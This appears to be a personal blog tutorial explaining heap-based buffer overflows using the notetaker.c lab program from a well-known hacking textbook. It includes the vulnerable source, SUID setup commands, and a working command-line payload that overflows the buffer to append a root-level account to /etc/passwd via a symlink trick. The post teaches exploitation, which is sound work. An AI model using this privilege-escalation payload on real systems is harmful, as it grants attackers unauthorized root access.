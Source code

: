 #+title: Heap-based buffer overflows
#+hugo_publishdate: 2023-11-19
#+options: tags:nil

* Table of Contents                                               :TOC_5_org:
- [[Introduction][Introduction]]
- [[Stack vs Heap-based buffer overflows?][Stack vs Heap-based buffer overflows?]]
- [[System information][System information]]
- [[Exercise][Exercise]]
- [[Bonus points][Bonus points]]
- [[Conclusion][Conclusion]]

* Introduction

In a previous post, I explained what a [[https://danielorihuela.github.io/posts/stack-based-buffer-overflows/][stack-based buffer overflow]] is and how it works. Today, we are going to see the heap-based variant.

* Stack vs Heap-based buffer overflows?

The difference between those two types is the region of memory where the exploited variables reside. That's easy to see in the C language. All variables are stored in the stack unless we use functions to allocate memory in the heap.

#+begin_src C
  # Variables stored in the stack
  int auth_flag = 0;
  char password_buffer[16];

  # Variables stored in the heap
  buffer = (char *)ec_malloc(100);
#+end_src

* System information

Before starting, let me mention some information about my system. Take them into account if you try to replicate the results. They may vary from machine to machine.

- Linux 5.15.0-86-generic x86_64
- Intel(R) Core(TM) i7-10510U CPU
- Little Endian
- 48 bits address size

* Exercise

We are going to exploit the ~notetaker.c~ program from *Hacking: The Art of Exploitation, 2nd Edition*. You can get the source code at https://github.com/intere/hacking/blob/master/booksrc. The program creates notes in =/var/notes=. Creating and modifying files in the root path requires root permissions. Hence, the executable of this program must be owned by the root and have the SUID activated. That way, we can execute it with normal users as if they were root.

#+begin_src C
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <fcntl.h>
  #include <sys/stat.h>
  #include "hacking.h"

  void usage(char *prog_name, char *filename)
  {
    printf("Usage: %s <data to add to %s>\n", prog_name, filename);
    exit(0);
  }

  void fatal(char *);            // A function for fatal errors
  void *ec_malloc(unsigned int); // An error-checked malloc() wrapper

  int main(int argc, char *argv[])
  {
    int userid, fd; // File descriptor
    char *buffer, *datafile;

    buffer = (char *)ec_malloc(100);
    datafile = (char *)ec_malloc(20);
    strcpy(datafile, "/var/notes");

    if (argc < 2)                 // If there aren't command-line arguments,
      usage(argv[0], datafile); // display usage message and exit.

    strcpy(buffer, argv[1]); // Copy into buffer.

    printf("[DEBUG] buffer @ %p: \'%s\'\n", buffer, buffer);
    printf("[DEBUG] datafile @ %p: \'%s\'\n", datafile, datafile);

    // Opening the file
    fd = open(datafile, O_WRONLY | O_CREAT | O_APPEND, S_IRUSR | S_IWUSR);
    if (fd == -1)
      fatal("in main() while opening file");
    printf("[DEBUG] file descriptor is %d\n", fd);

    userid = getuid(); // Get the real user ID.

    // Writing data
    if (write(fd, &userid, 4) == -1) // Write user ID before note data.
      fatal("in main() while writing userid to file");
    write(fd, "\n", 1);                          // Terminate line.
    if (write(fd, buffer, strlen(buffer)) == -1) // Write note.
      fatal("in main() while writing buffer to file");

    write(fd, "\n", 1); // Terminate line.
    // Closing file
    if (close(fd) == -1)
      fatal("in main() while closing file");
    printf("Note has been saved.\n");
    free(buffer);
    free(datafile);
  }
#+end_src

The error is copying the data from ~argv[1]~ to the buffer without checking the length. We can overflow the ~buffer~ variable if we pass a long enough argument to the executable and overwrite the ~datafile~ data.

#+begin_src C
  buffer = (char *)ec_malloc(100);
  datafile = (char *)ec_malloc(20);
  strcpy(datafile, "/var/notes");

  if (argc < 2)                 // If there aren't command-line arguments,
    usage(argv[0], datafile); // display usage message and exit.

  strcpy(buffer, argv[1]); // Copy into buffer.
#+end_src

Let's compile the program and give it the proper permissions.

#+begin_src bash
  gcc notetaker.c -o notetaker -g
  sudo chown root:root notetaker
  sudo chmod u+s notetaker
#+end_src

We can write to whatever file we want, ~testfile~ for example.

#+attr_html: :class centered-image
[[/images/heap-based-buffer-overflow/create-testfile.png]]

We exploited it!

* Bonus points 

The exercise is helpful but dull. We can do something more interesting when exploiting that program. We can create a new root user with any password that we want. Let me show you.

In Linux, there’s the /etc/passwd file where the basic information related to users is stored. Each entry includes the login name, hashed password, user id, group id, username, home directory and login shell of a user, separated by colons (e.g. ~root:x:0:0:root:/root:/bin/bash~). We can add a manually prepared entry to ~/etc/passwd~,  but how do we create the hashed password?

There are plenty of hashing functions. There's no constraint in linux, so we can use whichever one we want. I decided to use ~crypt~ from perl with a simple password (1234) and salt (AA).

#+begin_src bash
  perl -e 'print crypt("1234", "AA"), "\n"'
#+end_src

The result is ~AA3BKXQMdIWHE~. The entry would then look like ~newrootuser:AA3BKXQMdIWHE:0:0:root:/root:/bin/bash~. There's still another problem to solve. Remember that for the exploit to work, the final part of the argument must be the file where we want to write the data. It should be something similar to ~newrootuser:AA3BKXQMdIWHE:0:0:root:/root:/etc/passwd~. However, this is not a valid entry. The last part is no longer a shell, but a file. We can sidestep this problem with a symbolic link. That's the cool part, pay attention.

#+begin_src bash
  mkdir /tmp/etc
  ln -s /bin/bash /tmp/etc/passwd
#+end_src

We just created a symbolic link in ~/tmp/etc/passwd~ to a shell. That way, we can create a payload that ends with a login shell and the filename we want to overwrite. Pretty slick, right? We can then rewrite the entry as ~newrootuser:AA3BKXQMdIWHE:0:0:root:/root:/tmp/etc/passwd~. The last step is to make it longer to overflow the buffer.

#+begin_src bash
  ./notetaker $(perl -e 'print "newrootuser:AA3BKXQMdIWHE:0:0:", "A" x 71, ":/root:/tmp/etc/passwd"')
#+end_src

#+attr_html: :class centered-image
[[/images/heap-based-buffer-overflow/root-access.png]]

* Conclusion

Exploiting heap and stack buffer overflows has the same difficulty. Everything we know about one variant can be applied to the other (as far as I know). They are easy to exploit and protect. However, software engineers should be aware of their existence and how to avoid them. There is no excuse for avoiding them in your programs!
